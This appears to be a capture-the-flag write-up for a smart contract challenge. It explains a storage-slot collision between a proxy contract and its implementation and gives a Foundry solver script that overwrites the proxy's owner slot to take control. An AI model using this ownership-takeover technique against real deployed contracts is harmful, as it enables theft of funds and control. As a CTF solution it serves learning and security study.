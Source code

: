 ## Weakness  
There are two contracts in the task.  
One is a proxy contract, the second is an implementation contract, the second
proxy contract uses the code of the implementation contract and its storage.  
According to the logic of the implementation code, it is possible to write to
the same slot that is used in the proxy contract to determine the owner.

## Exploit

```solidity  
// SPDX-License-Identifier: UNLICENSED  
pragma solidity ^0.8.13;

import "forge-ctf/CTFSolver.sol";  
import "forge-std/console.sol";  
import "src/Setup.sol";

contract Solve is CTFSolver {  
   function solve(address challenge, address player) internal override {  
       Setup setup = Setup(challenge);  
       Guardian guardian = setup.TARGET();  
       GlacierVault glacier = GlacierVault(address(guardian));  
       GlacierVault glacierImpl = GlacierVault(address(guardian.implementation_addr()));  
       glacier.quickStore{value: 1337}(0, uint256(uint160(player)));  
       guardian.putToSleep();  
       console.log("Guardian Owner", guardian.owner());  
       console.log("Guardian Asleep", guardian.asleep());  
   }  
}  
```